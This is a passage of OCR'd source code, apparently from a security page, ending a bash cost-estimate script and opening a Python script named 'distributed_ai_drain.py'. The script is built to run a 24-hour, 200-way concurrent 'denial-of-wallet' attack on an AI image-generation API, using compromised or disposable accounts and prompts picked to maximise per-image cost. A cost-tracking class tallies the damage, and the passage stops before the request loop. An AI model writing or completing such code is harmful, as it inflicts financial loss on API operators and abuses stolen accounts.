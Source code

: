 ```bash
echo "Estimated Cost: \$${ESTIMATED_COST}"
echo "=========================================="
```

**Multi-Account Distributed Attack**
```python
#!/usr/bin/env python3
# distributed_ai_drain.py - Coordinate attack across multiple accounts

import asyncio
import aiohttp
import json
import time
from datetime import datetime
import random

TARGET_API = "https://api.example.com"
MAX_CONCURRENT = 200
ATTACK_DURATION_HOURS = 24

# Load compromised accounts or create disposable accounts
ACCOUNTS = []

# Generate expensive prompts to maximize cost
EXPENSIVE_PROMPTS = [
    "Hyperrealistic 8K, photorealistic dragon breathing fire over medieval castle, volumetric lighting, ray tracing, cinematic, award winning",
    "Ultra detailed cyberpunk cityscape at night, neon lights, rain, reflections, 8K, unreal engine, octane render, trending on artstation",
    "Epic fantasy battle scene, thousands of warriors, dramatic lighting, dust particles, 8K resolution, cinematic composition",
    "Photorealistic portrait of warrior in ornate armor, intricate details, dramatic lighting, 8K, professional photography",
    "Massive space station orbiting alien planet, ships, lasers, explosions, 8K, cinematic lighting, highly detailed"
]

class AttackStats:
    def __init__(self):
        self.total_requests = 0
        self.successful_requests = 0
        self.failed_requests = 0
        self.total_cost = 0.0
        self.start_time = time.time()
    
    def record_success(self):
        self.successful_requests += 1
        self.total_cost += 0.040  # DALL-E 3 cost per image
    
    def record_failure(self):
        self.failed_requests += 1
    
    def print_stats(self):
        elapsed = time.time() - self.start_time
        rate = self.successful_requests / elapsed if elapsed > 0 else 0
        
        print(f"\n{'='*60}")
        print(f"Attack Statistics")
        print(f"{'='*60}")
        print(f"Runtime: {elapsed/3600:.2f} hours")
        print(f"Total Requests: {self.total_requests}")
        print(f"Successful: {self.successful_requests}")
        print(f"Failed: {self.failed_requests}")
        print(f"Success Rate: {self.successful_requests/self.total_requests*100:.1f}%")
```